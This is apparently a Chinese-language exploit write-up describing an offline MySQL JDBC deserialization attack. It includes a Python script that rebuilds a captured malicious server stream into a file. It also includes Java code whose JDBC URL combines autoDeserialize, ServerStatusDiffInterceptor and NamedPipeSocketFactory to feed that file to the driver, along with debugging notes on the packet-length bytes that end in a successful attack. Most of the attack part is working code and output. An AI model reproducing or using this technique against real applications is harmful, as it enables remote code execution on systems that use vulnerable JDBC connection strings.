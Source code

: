 发现真无法读取文件

采用绝对路径设置权限后成功读取

 但是还是报错

mysqlio.class  line 339 在读取流量包作为输入的时候会进行大小判断

​`  int packetLength = (this.packetHeaderBuf[0] & 255) + ((this.packetHeaderBuf[1] & 255) << 8) + ((this.packetHeaderBuf[2] & 255) << 16);`​

判断大小逻辑如下

读取内容为 52 -51 -78 -95

修改逻辑后报错显示

文件读取到的字节（前 3 个）：34 CD B2  
计算得到的 packetLength: 11717940  
当前 socketFactory: null  
数据库连接失败!  
com.mysql.jdbc.PacketTooBigException: Packet for query is too large (11717940 > 1048576).

发现确实是前三个字节有问题

修改前三个字节后 成功攻击

‍

注意

不出网的用户名需要与出网的时候用户名一致（如果用错误的用户名，打失败了，用户名改对也无法成功，需要重新来一次）

‍

‍

### 思考

或许是导出的方法不对  不能用直接导出的http包 因为 pcap包里肯定在头部添加了一些字节作为大小类型等判断

考虑直接导出raw原始数据流 然后 修改成 数据包

编写脚本

```JAVA
with open("2.txt", "r", encoding="utf-8") as f:
    hex_data = f.read()
hex_data = hex_data.replace('\n', '').replace(' ', '')# 转换为二进制
raw_bytes = bytes.fromhex(hex_data)# 保存为文件
with open("x.pcap", "wb") as f:
    f.write(raw_bytes)
    print("raw 数据已保存到 文件")
```

利用java-chains 直接使用

```JAVA
import java.sql.Connection;
import java.sql.DriverManager;

public class FIleDemo {
    public static void main(String[] args) throws Exception{
        String driver = "com.mysql.jdbc.Driver";
        String user = "df346cc";
        String password = "root";
        String DB_URL = "jdbc:mysql://xxxx/mysql?useSSL=false&autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&user=" + user + "&password=" + password +"&socketFactory=com.mysql.jdbc.NamedPipeSocketFactory" + "&namedPipePath=C:\\Users\\17657\\Desktop\\soft\\x.pcap" ;;
        Class.forName(driver);
        Connection conn = DriverManager.getConnection(DB_URL);
    }
```